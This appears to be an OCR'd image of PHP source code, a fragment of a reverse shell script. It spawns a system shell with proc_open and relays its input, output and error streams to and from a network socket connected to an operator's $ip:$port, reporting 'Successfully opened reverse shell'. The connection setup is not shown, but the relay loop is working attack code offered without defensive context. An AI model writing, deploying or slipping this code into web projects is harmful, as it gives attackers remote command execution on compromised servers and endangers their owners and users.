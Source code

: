 ```php
$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) { printit("ERROR: Can't spawn shell"); exit(1); }

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
  if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; }
  if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; }

  $read_a = array($sock, $pipes[1], $pipes[2]);
  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

  if (in_array($sock, $read_a)) {
    if ($debug) printit("SOCK READ");
    $input = fread($sock, $chunk_size);
    if ($debug) printit("SOCK: $input");
    fwrite($pipes[0], $input);
  }

  if (in_array($pipes[1], $read_a)) {
    if ($debug) printit("STDOUT READ");
    $input = fread($pipes[1], $chunk_size);
    if ($debug) printit("STDOUT: $input");
    fwrite($sock, $input);
  }

  if (in_array($pipes[2], $read_a)) {
    if ($debug) printit("STDERR READ");
    $input = fread($pipes[2], $chunk_size);
    if ($debug) printit("STDERR: $input");
    fwrite($sock, $input);
  }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
  global $daemon;
  if (!$daemon) {
    print "$string\n";
  }
}
?>
```

